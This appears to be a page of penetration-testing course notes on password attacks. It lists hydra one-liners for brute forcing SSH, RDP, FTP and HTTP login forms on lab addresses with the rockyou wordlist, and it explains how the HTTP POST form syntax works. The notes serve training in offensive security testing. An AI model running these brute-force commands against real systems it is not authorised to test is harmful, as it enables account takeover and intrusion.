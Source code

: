 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Module 15: Password Attacks

## Attacking Network Services Logins

### SSH and RDP

Brute force SSH with **known username** and **unknown password** on abnormal port number (-t 4 due to SSH commonly limiting parallel tasks to 4):\
`hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 -t 4 ssh://192.168.50.201`

Brute force RDP with **unknown username** and **known password**:\
`hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202`

Brute force FTP with **unknown username** and **unknown password:**\
`hydra -L /usr/share/wordlists/dirb/others/names.txt -P /usr/share/wordlists/rockyou.txt ftp://192.168.50.203`

### HTTP POST Login Form

Brute force HTTP POST login form with **unknown username** and **unknown password**:\
`hydra -L /usr/share/wordlists/dirb/others/names.txt -P /usr/share/wordlists/rockyou.txt <target.ip.goes.here> http-post-form "/index.php:fm_usr=^USER^&fm_pwd=^PASS^:Login failed. Invalid"`\
This targets a webpage hosting a login form at /index.php, followed by a colon, then the post-form fields found via burpsuite, followed by an additional colon, followed finally by the invalid login text displayed to help hydra understand failures vs. successes.

Brute force HTTP GET login form with **known username** and **unknown password**:\
`hydra -l admin -P /usr/share/wordlists/rockyou.txt <target.ip.goes.here> http-get "/"`

## Password Cracking Fundamentals

### Introduction to Encryption, Hashes and Cracking

John the Ripper is more a CPU-based crackin tool, which also supports GPUs.
